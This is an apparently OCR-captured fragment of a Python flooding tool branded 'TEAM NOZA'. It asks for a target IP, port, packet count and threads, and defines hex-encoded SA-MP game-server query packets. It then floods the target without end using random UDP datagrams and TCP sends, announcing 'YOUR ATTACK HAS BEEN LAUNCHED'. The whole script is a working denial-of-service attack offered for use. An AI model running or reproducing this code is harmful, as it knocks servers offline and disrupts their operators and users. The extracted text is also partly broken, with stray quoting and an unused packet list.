 ╱╱▏┈┈╱╱╱╱▏╱╱▏
▇╱▏┈┈▇▇▇╱▏▇╱▏
▇╱▏▁┈▇╱▇╱▏▇╱▏▁
▇╱╱╱▏▇╱▇╱▏▇╱╱╱
▇▇▇╱┈▇▇▇╱┈▇▇▇╱ 



""")

ip = str(input(" Target Ip:"))
port = int(input(" Target Port:"))
choice = str(input("Thb Tnik  Serveur? (y/n):"))
times = int(input(" Packet:"))
threads = int(input(" Threads:"))
fake_ip = '182.21.20.32'
#Starting Attacking
Pacotes = [codecs.decode("53414d5090d91d4d611e700a465b00","hex_codec"),#p
                       codecs.decode("53414d509538e1a9611e63","hex_codec"),#c
                       codecs.decode("53414d509538e1a9611e69","hex_codec"),#i
                       codecs.decode("53414d509538e1a9611e72","hex_codec"),#r
                       codecs.decode("081e62da","hex_codec"), #cookie port 7796
                       codecs.decode("081e77da","hex_codec"),#cookie port 7777
                       codecs.decode("081e4dda","hex_codec"),#cookie port 7771
                       codecs.decode("021efd40","hex_codec"),#cookie port 7784
                       codecs.decode("081e7eda","hex_codec")#cookie port 7784 tambem
                       ]
def run():
	data = random._urandom(1460)
	i = random.choice(("[*]","[!]","[#]"))
	while True:
		try:
			s = socket.socket(socket.AF_INET, socket.SOCK_DGRAM)
			addr = (str(ip),int(port))
			for x in range(times):
				s.sendto(data,addr)
			print(i +" YOUR ATTACK HAS BEEN LAUNCHED !!!")
		except:
			print("[!]TEAM NOZA COSTRA TNIK KOLL!!")

def run2():
	data = random._urandom(1204)
	i = random.choice(("[*]","[!]","[#]"))
	while True:
		try:
			s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
			s.connect((ip,port))
			s.send(data)
			for x in range(times):
				s.send(data)
			print(i +" YOUR ATTACK HAS BEEN LAUNCHED !!!")
		except:
			s.close()
			print("[*]TEAM NOZA COSTRA TNIK KOLL!!")
            